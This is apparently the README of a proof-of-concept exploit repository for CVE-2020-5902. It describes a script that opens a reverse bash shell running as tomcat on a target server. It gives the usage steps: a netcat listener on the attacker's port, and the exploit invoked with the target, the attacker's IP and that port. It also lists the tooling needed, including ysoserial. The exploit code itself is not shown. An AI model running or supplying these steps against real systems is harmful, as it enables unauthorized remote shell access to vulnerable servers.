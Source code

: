 # Proof of Concept for CVE-2020-5902
Sends a reverse bash shell running as tomcat.
```
nc -l -v -p localport
./CVE-2020-5902.sh <server> <localip> <localport>
```
## Requirements
* Java JDK (note: Some versions of Java may not work. Tested with v11)
* hsqldb.jar 1.8 (included in this repo)
* ysoserial https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
